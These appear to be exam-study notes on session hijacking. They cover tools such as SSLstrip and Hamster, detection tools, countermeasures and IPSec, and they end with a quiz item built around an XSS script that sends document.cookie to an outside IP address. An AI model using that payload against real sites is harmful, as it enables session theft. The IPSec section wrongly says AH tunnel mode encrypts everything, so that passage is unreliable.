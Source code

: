   - **Zaproxy**
  - **OWASP ZAP**
  - **Paros**
  - **SSLstrip** -  Victim  <== HTTP ==>  Attacker  <== HTTPS ==>  Twitter --- Sslstrip tool is exploiting user behavior and if a user does not type https:// in front of the link, and the website has redirection from HTTP to HTTPS, it will intercept HTTP 302 redirection and send the user exactly what the user asked for, i.e. HTTPsite 
  - **Juggernaut**
  - **Hamster**
  - **Ferret**
  
  
- **Hijacking Detection Tools**
  - LogRhythm(Automatic) : SIEM, UEBA, SAO(security automation&orchestration)
  - Wireshark(Manual)
  - Fiddler(Manual) : used for security testing for web applications and session debugging
  - CxSAST(Preventive) - Using source code analysis to identify vulnerabilities
  
  
- **Countermeasures**
  - Use HSTS : HTTP Strict transport security protects against HTTPS from MITM through converting all HTTP to HTTPS and ensures valid server fingerprint
  - Token binding: for every new connection, new pair of public/private key, clients signs token with private key.
  - HPKP: HTTP Public Key Pinning, Digital signed certificate.
  - Using unpredictable session IDs
  - Limiting incoming connections
  - Minimizing remote access
  - Regenerating the session key after authentication
  - Use IPSec to encrypt
  
  
- **IPSec**
  - **Transport Mode(ESP)** - payload and ESP trailer are encrypted;  IP header is not
  - **Tunnel mode(AH)** - everything is encrypted.
  - **Architecture Protocols**
    - **Authentication Header** - provides origin authenticity and integrity, no replay protection
    - **Encapsulating Security Payload** (ESP) - provides origin authenticity and integrity, PLUS confidentiality
    - **Internet Key Exchange** (IKE) - produces the keys for the encryption process
    - **Oakley** - uses Diffie-Hellman to create master and session keys
    - **Internet Security Association Key Management Protocol (ISAKMP)** - software that facilitates encrypted communication between two endpoints
    - **IPSEC Domain of Interpretation(DOI)** - Defines payload formats, types of exchange, naming conventions for security information such as cryptographic algorithm or security policies)
    - **IPSEC Driver** - The software that enables the IPSEC operation
    - **IPSEC Policy Agent** - Collects IPSEC policy from AD and sets system configs 


- XSS example for wrong command due to closure expression
<script> new image().src="http://192.168.11.111/?a="+documentt.cookie <script>
Answer: <script> tag is not correctly closed it has to be closed like this: </script>
